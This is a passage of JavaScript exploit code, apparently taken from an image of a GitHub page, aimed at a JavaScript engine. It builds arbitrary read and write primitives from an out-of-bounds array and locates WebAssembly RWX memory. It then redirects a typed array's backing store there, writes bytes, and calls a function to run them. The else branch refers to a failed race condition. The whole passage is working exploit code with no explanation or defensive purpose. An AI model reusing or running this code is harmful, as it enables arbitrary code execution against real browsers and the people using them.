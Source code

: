 ```javascript
                int_aux[1] = Number(addr-4n);
                OOB[marker] = float_aux[0];
            }
            else{
                float_aux[0] = OOB[marker+1];
                save = float_aux[0];
                int_aux[0] = Number(addr-4n);
                OOB[marker+1] = float_aux[0];
            }
            ret = leak_obj.floatprop;
            OOB[(int_aux[0] == 0x44444444) ? marker : marker+1] = save;
            return ftoi(ret);
        }

        print("Achieved arbitrary write.")
        function write64(addr, val){
            let aux = new ArrayBuffer(8);
            let int_aux = new Uint32Array(aux);
            let float_aux = new Float64Array(aux);
            
            float_aux[0] = OOB[marker];
            
            let save;
            if(int_aux[0] == 0x44444444){
                save = float_aux[0];
                int_aux[1] = Number(addr-4n);
                OOB[marker] = float_aux[0];
            }
            else{
                float_aux[0] = OOB[marker+1];
                save = float_aux[0];
                int_aux[0] = Number(addr-4n);
                OOB[marker+1] = float_aux[0];
            }
            leak_obj.floatprop = itof(val);
            OOB[(int_aux[0] == 0x44444444) ? marker : marker+1] = save;
            if(read64(addr) != val){
                print("write failed.");
                return 1;
            }
        }

        let addr_wasm = addrof(wasm_instance);
        let addr_rwx = read64(addr_wasm + 0x68n);
        print("RWX: " + hex(addr_rwx));
        
        // 64 bit address and 64 bit write.
        let bof = new ArrayBuffer(8);
        let int_bof = new Uint32Array(bof);
        let float_bof = new Float64Array(bof);
        let addr_int_bof = addrof(int_bof);

        write64(addr_int_bof+0x28n, addr_rwx);
        int_bof[0] = 0x047be9;
        print(hex(read64(addr_int_bof+0x28n)));
        // print(hex(read64(addr_rwx-411n)));
        int_bof;
        f1();
    }
    else{
        print("Double reference failed. Race condition not achieved. ")
    }
}
```